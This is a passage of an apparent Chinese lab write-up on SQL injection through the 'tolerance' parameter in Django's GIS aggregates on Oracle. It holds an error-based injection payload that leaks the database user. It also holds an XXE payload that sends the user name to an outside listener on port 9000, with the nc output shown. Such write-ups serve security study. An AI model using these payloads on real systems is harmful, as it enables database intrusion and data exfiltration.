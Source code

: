 查看 https://github.com/django/django/blob/335c9c94acf263901fb023404408880245b0c4b4/django/contrib/gis/db/models/aggregates.py，可以看到有：

```python
def as_oracle(self, compiler, connection, **extra_context):
    tolerance = self.extra.get('tolerance') or getattr(self, 'tolerance', 0.05)
    template = None if self.is_extent else '%(function)s(SDOAGGRTYPE(%(expressions)s,%(tolerance)s))'
    return self.as_sql(compiler, connection, template=template, tolerance=tolerance, **extra_context)
```

这里，`tolerance` 同样没有检查就用于 SQL 查询。

同样的，我们可以使用报错注入：`?q=20))) FROM "VULN_COLLECTION2" where (select utl_inaddr.get_host_name((SELECT user FROM DUAL)) from dual) is not null --`，那么查询就变成了：

```sql
SELECT SDO_UTIL.TO_WKBGEOMETRY(SDO_AGGR_UNION(SDOAGGRTYPE("APP_CITY"."POINT", 20))) FROM "VULN_COLLECTION2" where (select utl_inaddr.get_host_name((SELECT user FROM DUAL)) from dual) is not null --))) AS "POINT__UNION" FROM "APP_CITY";
```

由此得到了数据库用户名。

考虑到 Oracle 的版本，漏洞 1（漏洞 2 类似）还可以利用 Oracle XXE 漏洞（CVE-2014-6577） 注入构造的恶意 xml：`?q=20) = 1 OR (select extractvalue(xmltype('%3C%3Fxml version%3D%221.0%22 encoding%3D%22UTF-8%22%3F%3E%3C!DOCTYPE root %5B %3C!ENTITY %25%25%25%25 remote SYSTEM %22http%3A%2F%2Fhost.docker.internal%3A9000%2F'%7C%7C(SELECT  utl_inaddr.get_host_name() from dual)%7C%7C'%22%3E %25%25%25%25remote%3B%5D%3E')%2C'%2Fl') from dual) is not null OR (1%2B1`。

在 shell 中监听得到：

```shell
$ nc -l 9000
GET /SYSTEM HTTP/1.0
Host: host.docker.internal
Content-Type: text/plain; charset=utf-8
```

可以看到，返回了数据库用户名。

# QuerySet.order_by() SQL注入漏洞（CVE-2021-35042）

https://vulhub.org/#/environments/django/CVE-2021-35042/

# Trunc(kind) and Extract(lookup_name) SQL注入漏洞（CVE-2022-34265）

https://vulhub.org/#/environments/django/CVE-2022-34265/

# 参考

- https://www.cnblogs.com/f-carey/p/15889106.html#tid-dTaJ5R
- https://www.leavesongs.com/PENETRATION/django-jsonfield-cve-2019-14234.html
- https://xz.aliyun.com/t/7403
